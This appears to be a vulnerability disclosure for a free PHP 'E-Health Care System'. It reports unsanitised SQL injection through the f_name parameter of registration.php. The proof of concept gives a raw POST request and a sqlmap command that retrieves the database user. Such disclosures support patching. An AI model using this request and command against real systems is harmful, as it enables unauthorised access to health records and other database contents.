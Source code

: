 # E-Health Care System IN PHP registration.php has SQL injection vulnerability

## supplier
https://code-projects.org/e-health-care-system-in-php-css-js-and-mysql-free-download/
## Vulnerability file
registration.php
## describe
There are unrestricted SQL injection attacks in the health system. Controllable parameters: f_name. In registration.php, there is no restriction on adding f_name parameters to SQL statements. You can obtain sensitive information from the database.
## code analysis
The f_name parameters of the registration.php are not filtered and concatenated into the SQL statement for execution.

![image-20241103005850113](https://github.com/user-attachments/assets/8401cb81-8605-4124-a418-5008a0098aed)

![image-20241103005920138](sql14.assets/image-20241103005920138.png)



## POC

```
POST /Users/registration.php HTTP/1.1
Host: healthcare
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
Origin: http://healthcare
Connection: close
Referer: http://healthcare/Users/registration.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

f_name=1*&l_name=1&email=1&contact=1&address=1&DOB=0001-11-02&gender=male&maritialstatus=married&pswd=123456789&submit=register
```

save as 1.txt

execute this command.

```
 python sqlmap.py -r 1.txt --current-user
```

Get the current_user:  root@localhost

![image-20241103010038902](https://github.com/user-attachments/assets/9ba1cffb-9a6b-4aee-b304-78fb4c2df336)

Discover
马熙宏
